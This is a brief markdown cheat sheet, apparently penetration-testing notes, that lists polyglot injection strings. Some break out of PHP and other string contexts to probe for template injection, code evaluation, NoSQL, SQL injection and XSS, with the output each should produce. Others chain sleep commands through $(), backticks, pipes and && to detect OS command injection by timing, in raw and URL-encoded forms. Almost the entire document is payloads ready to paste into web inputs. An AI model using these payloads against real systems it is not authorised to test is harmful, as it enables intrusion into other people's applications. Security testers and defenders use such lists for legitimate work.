 # Errors based/behaviour inferer

## PHP String context for SSTi, evaluation, NoSQL, SQLi, XSS

``hello"."@(${{[%<%'**'><h1>asad2afdsd42sg</h1>`` => `Surrounding string:' then output should be: hello@(\${{[%<%".">` && `Surrounding string:" then output should be: hello'.'@(${{[%<%>`

## Other languages string context for SSTi, evaluation, NoSQL, SQLi, XSS

`hello"+"@(${{[%<%'**'><h1>asad2afdsd42sg</h1>` => `Sourrounding string:' then output is Generic Error Message (Fails to concat)` && `Surrounding string: " then output is hello@(${{[%<%'**'> (Concats)`

`hello"%2b"%40(${{[%25<%25'**'><h1>asad2afdsd42sg</h1>`

## Error based inferer for OSCMDi, Path Traversal in Unix

``$(sleep+10)+||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10+`sleep+10`";$(sleep+10)+`sleep+10`||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10"';sleep+10+%26%26sleep+10+||+sleep+10+|+sleep+10+`sleep+10`'``

``$(sleep 10) || sleep 10 | sleep 10; sleep 10 && sleep 10 `sleep 10`";$(sleep 10) `sleep 10`|| sleep 10 | sleep 10; sleep 10 && sleep 10"';sleep 10 && sleep 10 || sleep 10 | sleep 10 `sleep 10`'``

Works in raw format, between `'` or `"`.
